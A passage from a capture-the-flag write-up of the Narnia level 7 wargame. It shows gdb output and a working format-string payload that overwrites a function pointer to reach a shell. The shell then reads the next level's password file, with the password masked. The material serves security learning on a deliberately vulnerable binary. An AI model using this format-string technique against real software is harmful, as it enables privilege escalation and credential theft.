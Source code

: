 ``` shell

Breakpoint 1, 0x08048680 in vuln ()
(gdb) ni
0x08048685 in vuln ()
(gdb) c
Continuing.
Way to go!!!!$
```

Cool! We can now replicate this outside of `gdb`:

``` shell
narnia7@narnia:/narnia$ ./narnia7 $(python -c 'print "\x5e\xd6\xff\xff\x5c\xd6\xff\xff%.2044x%6$hn%.32514x%7$hn"')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd66c)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
```

The memory location for `ptrf` has changed - let's update that quickly:

``` shell
narnia7@narnia:/narnia$ ./narnia7 $(python -c 'print "\x6e\xd6\xff\xff\x6c\xd6\xff\xff%.2044x%6$hn%.32514x%7$hn"')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd66c)
I guess you want to come to the hackedfunction...
Way to go!!!!$ cat /etc/narnia_pass/narnia8
*** password ***
```

